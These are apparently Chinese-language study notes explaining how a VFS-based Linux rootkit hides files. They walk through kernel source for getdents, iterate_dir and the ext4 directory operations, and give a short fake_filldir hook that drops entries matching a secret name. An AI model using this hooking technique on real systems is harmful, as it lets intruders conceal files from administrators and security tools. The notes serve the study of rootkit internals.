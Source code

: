 # 基于VFS的Rootkit

> Virtual file systems (VFS) are an abstraction layer to allow easy communication with other filesystems such as ext4, reiser fs, or other special filesystems like procfs. This extra layer translates easy to use VFS functions to their appropriate functions offered by the given filesystem. This allows a developer to interact solely with the VFS and not needing to find, handle, and support the different functions and types of individual filesystems. 
>
> 为什么VFS可以实现文件系统隐藏：
>
> 1. First, we can hook a VFS function and deal with that one function to hide information from the concrete filesystem.
> 2. procfs is a supported filesystem
>
> **Procfs (Proc filesystem)** 
>
> The proc filesystem is an interface to easily manage kernel data structures. This includes being able to retrieve and even change data inside the linux kernel at runtime. More importantly, for us, it also provides an interface for process data. Each process is mapped to procfs by its given process id number. Retrieving this pid number allows any tool to pull, with appropriate privileges, whatever data it needs to find out about that given process. This includes its memory mapping, memory usage, network usage, parameters, environment variables, and etc. Given this, if we know the pid and we're hooked into the VFS for procfs, we can also manipulate data returned to these tools to hide processes. 

```c
SYSCALL_DEFINE3(getdents, unsigned int, fd,
		struct linux_dirent __user *, dirent, unsigned int, count)
{
	struct fd f;
	struct linux_dirent __user * lastdirent;
	struct getdents_callback buf = {
		.ctx.actor = filldir,
		.count = count,
		.current_dir = dirent
	};
	int error;
	if (!access_ok(VERIFY_WRITE, dirent, count))
		return -EFAULT;
	f = fdget(fd);
	if (!f.file)
		return -EBADF;
    // 调用的是iterate_dir函数
	error = iterate_dir(f.file, &buf.ctx);
	if (error >= 0)
		error = buf.error;
	lastdirent = buf.previous;
	if (lastdirent) {
		if (put_user(buf.ctx.pos, &lastdirent->d_off))
			error = -EFAULT;
		else
			error = count - buf.count;
	}
	fdput(f);
	return error;
}
```

fs.h有iterate_dir函数

```c
struct dir_context {
	const filldir_t actor;
	loff_t pos;
};
int iterate_dir(struct file *file, struct dir_context *ctx)
{
	struct inode *inode = file_inode(file);
	int res = -ENOTDIR;
	if (!file->f_op->iterate)
		goto out;
	res = security_file_permission(file, MAY_READ);
	if (res)
		goto out;
	res = mutex_lock_killable(&inode->i_mutex);
	if (res)
		goto out;
	res = -ENOENT;
	if (!IS_DEADDIR(inode)) {
		ctx->pos = file->f_pos;
		res = file->f_op->iterate(file, ctx);
		file->f_pos = ctx->pos;
		file_accessed(file);
	}
	mutex_unlock(&inode->i_mutex);
out:
	return res;
}
EXPORT_SYMBOL(iterate_dir);
```

调用了file_operations里面的iterate函数，在VFS中有关file_operation定义如下:

```c
const struct file_operations ext4_dir_operations = {
	.llseek		= ext4_dir_llseek,
	.read		= generic_read_dir,
	.iterate	= ext4_readdir,
	.unlocked_ioctl = ext4_ioctl,
#ifdef CONFIG_COMPAT
	.compat_ioctl	= ext4_compat_ioctl,
#endif
	.fsync		= ext4_sync_file,
	.release	= ext4_release_dir,
};
```

可以看到，实现的是readdir

，中间过程比较复杂，简单描述如下：通过getdents系统调用了来获取当前目录下的文件时，file->f_op->readdir(file, buf, filler)调用的实际上是ext4_dir_operations函数集中的readdir()函数。即由ex4文件系统驱动来读取当前目录文件中的一个个目录项。 ext4_readdir最终会通过filldir把目录里面的项目一个一个的填到getdents返回的缓冲区里，缓冲区里是一个个的linux_dirent。

所以真正重要的是filler部分，在fs.h中可以找到:

```c
typedef  int (*filldir_t)(void *, const char *, int, loff_t, u64, unsigned);
```

总的来说，调用层次如下：

```c
sys_getdents-> iterate_dir-> struct file_operations.iterate->省略若干层次 -> struct dir_context.actor(mostly filldir)
```


要达到隐藏文件的目的，我们需要hooking filldir，在hooking function中去掉我们需要隐藏的文件记录，不填到缓冲区，这样应用程序就收不到相应的记录，也就打到了隐藏文件的目的。

```c
int fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
{
        if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
                printk("Hiding: %s", name);
                return 0;
        }

        return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
```

附:VFS 层

```c
struct file_operations {
         struct module *owner;
         loff_t (*llseek) (struct file *, loff_t, int);
         ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
         ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
         ssize_t (*aio_read) (struct kiocb *, const struct iovec *, unsigned long, loff_t);
         ssize_t (*aio_write) (struct kiocb *, const struct iovec *, unsigned long, loff_t);
         int (*readdir) (struct file *, void *, filldir_t);
         unsigned int (*poll) (struct file *, struct poll_table_struct *);
         long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
         long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
         int (*mmap) (struct file *, struct vm_area_struct *);
         int (*open) (struct inode *, struct file *);
         int (*flush) (struct file *, fl_owner_t id);
         int (*release) (struct inode *, struct file *);
         int (*fsync) (struct file *, loff_t, loff_t, int datasync);
         int (*aio_fsync) (struct kiocb *, int datasync);
         int (*fasync) (int, struct file *, int);
         int (*lock) (struct file *, int, struct file_lock *);
         ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
         unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
         int (*check_flags)(int);
         int (*flock) (struct file *, int, struct file_lock *);
         ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
         ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
         int (*setlease)(struct file *, long, struct file_lock **);
         long (*fallocate)(struct file *file, int mode, loff_t offset, loff_t len);
};
```

**Readdir**

```c
struct linux_dirent {
               unsigned long  d_ino;     /* Inode number */
               unsigned long  d_off;     /* Offset to next linux_dirent */
               unsigned short d_reclen;  /* Length of this linux_dirent */
               char           d_name[];  /* Filename (null-terminated) */
                                   /* length is actually (d_reclen - 2 -
                                      offsetof(struct linux_dirent, d_name) */
               /*
               char           pad;       // Zero padding byte
               char           d_type;    // File type (only since Linux 2.6.4;
                                         // offset is (d_reclen - 1))
               */

           }
```

**fillter**

```c
dirent = buf->previous;
if (dirent) {
 if (__put_user(offset, &dirent->d_off))
         goto efault;
}
dirent = buf->current_dir;
if (__put_user(d_ino, &dirent->d_ino))
 goto efault;
if (__put_user(reclen, &dirent->d_reclen))
 goto efault;
if (copy_to_user(dirent->d_name, name, namlen))
 goto efault;
if (__put_user(0, dirent->d_name + namlen))
 goto efault;
if (__put_user(d_type, (char __user *) dirent + reclen - 1))
 goto efault;
```



